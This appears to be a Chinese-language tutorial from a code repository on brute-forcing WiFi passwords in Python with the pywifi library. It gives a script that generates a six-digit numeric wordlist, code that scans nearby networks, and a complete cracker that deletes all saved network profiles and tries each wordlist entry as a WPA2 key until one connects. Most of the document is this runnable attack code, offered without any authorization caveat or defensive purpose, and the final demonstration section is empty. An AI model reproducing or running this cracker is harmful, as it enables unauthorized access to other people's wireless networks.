




# Python暴力破解WiFi密码：

### 1、安装必备库：

```
pip install pywifi
```

```
安装完毕后，简单调用下面代码，出现报错信息：

import pywifi
from pywifi import const        #引入一些常量

#判断是否已经连接WiFi
def wifi_connect():
    wifi = pywifi.PyWiFi()
    print(wifi)

wifi_connect()
```




```
解决办法：
	python -m pip install comtypes

{
	注意：推荐使用豆瓣源来安装包，这样的话安装模块特快
	格式为：pip install 包名 -i https://pypi.douban.com/simple 
	如果想永久修改源的话可以参考以下这篇文章：				 https://blog.csdn.net/c0411034/article/details/88821055
}
```



再次调用，返回一个对象！




### 2、相关准备！

**迭代器自动生成密码本！**

```
import itertools as its
# 迭代器，as是重命名

# words可以是字母以及其他特殊字符
words = "1234567890"

# 生成4位密码就写repeat=4,5位的就写repeat=5，以此类推
r = its.product(words,repeat=6)

# 保存到文件中
for i in r:
    with open('password.txt',mode="a+",encoding="utf-8") as f:
        f.write("".join(i))
        f.write('\n')
```

**pywifi相关知识：**

```
import pywifi
from pywifi import const        #引入一些常量


#判断是否已经连接WiFi
def wifi_connect():
    # 创建无线对象
    wifi = pywifi.PyWiFi()

    # <pywifi.iface.Interface object at 0x0000014BC4ED8128>,存放内存地址
    ifaces = wifi.interfaces()[0]

    # 打印当前网卡的名称:Intel(R) Dual Band Wireless-AC 3168
    # print(ifaces.name())

    # 打印当前网卡的连接状态,0表示未连接到WiFi环境，4表示已连接
    # print(ifaces.status())
    # 可以直接将const.IFACE_CONNECTED替换成4
    if ifaces.status() == const.IFACE_CONNECTED:
        print('已连接到WiFi环境！')
    else:
        print('未连接到WiFi环境！')

# 扫描附近的WiFi
def wifi_around():
    wifi = pywifi.PyWiFi()
    ifaces = wifi.interfaces()[0]

    #扫描WiFi
    ifaces.scan()
    #获取扫描结果
    result = ifaces.scan_results()
    for wifi_name in result:
        # 打印WiFi的名称
        print(wifi_name.ssid)

wifi_around()
```


### 3、完整代码：

```
# coding:utf-8
import pywifi
from pywifi import const
import time


# 测试连接，返回链接结果
def wifiConnect(pwd,kd):
    # 抓取网卡接口
    wifi = pywifi.PyWiFi()
    # 获取第一个无线网卡
    ifaces = wifi.interfaces()[0]
    # 断开所有连接
    ifaces.disconnect()
    time.sleep(1)
    wifistatus = ifaces.status()
    if wifistatus == const.IFACE_DISCONNECTED:
        # 创建WiFi连接文件
        profile = pywifi.Profile()
        # 要连接WiFi的名称
        profile.ssid = kd
        # 网卡的开放状态
        profile.auth = const.AUTH_ALG_OPEN
        # wifi加密算法,一般wifi加密算法为wps
        profile.akm.append(const.AKM_TYPE_WPA2PSK)
        # 加密单元
        profile.cipher = const.CIPHER_TYPE_CCMP
        # 调用密码
        profile.key = pwd
        # 删除所有连接过的wifi文件
        ifaces.remove_all_network_profiles()
        # 设定新的连接文件
        tep_profile = ifaces.add_network_profile(profile)
        ifaces.connect(tep_profile)
        # wifi连接时间
        time.sleep(3)
        if ifaces.status() == const.IFACE_CONNECTED:
            return True
        else:
            return False
    else:
        print("已有wifi连接")

        # 读取密码本


def readPassword(path,kd):
    print("开始破解:")
    # 密码本路径
    path = path
    # 打开文件
    file = open(path, "r")
    while True:
        try:
            # 一行一行读取
            pad = file.readline()
            bool = wifiConnect(pad,kd)

            if bool:
                print("密码已破解： ", pad)
                print("WiFi已自动连接！！！")
                break
            else:
                # 跳出当前循环，进行下一次循环
                print("密码破解中....密码校对: ", pad)
        except:
            continue


if __name__ == '__main__':
    path = input('请输入密码本的存储路径：')
    kd = input("请输入wifi的名称(不支持中文！)")
    readPassword(path,kd)
```

```
注意：
	path = input('请输入密码本的存储路径：')
	(eg:E:/寒假辛酸/python爬虫/06 requests高级/作业/1、电影天堂/password.txt)
	
    kd = input("请输入wifi的名称(不支持中文！)")
    (eg:wang)
```


### 4、实际演示：



